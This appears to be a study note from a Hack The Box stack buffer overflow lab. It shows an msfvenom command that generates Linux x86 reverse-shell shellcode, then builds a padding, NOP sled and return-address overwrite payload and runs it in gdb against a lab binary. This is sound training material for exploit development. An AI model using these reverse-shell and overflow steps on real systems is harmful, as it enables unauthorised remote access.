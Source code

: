 ```yaml
---
title: "Generate Shellcode"
tags:
  - stack-overflow
  - htb
programming-languagues:
created: 2022-07-12
---
```

# Generate Shellcode
---
This is part of a guide that you can find [here](notes/general/htb-stack-based-overflow-linux.md).

We have to pay attention to:

- Architecture
- Platform
- Bad Characters


We can use `msfvenom` to generate our shellcode:

```bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
```

So:

```bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
```

Now we have:

```bash
Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
EIP = "\x66" * 4'
```

So we exploit:

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc ()
```

We can check if the first bytes of our shellcode matches the bytes after the NOPS:

```bash
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>
```


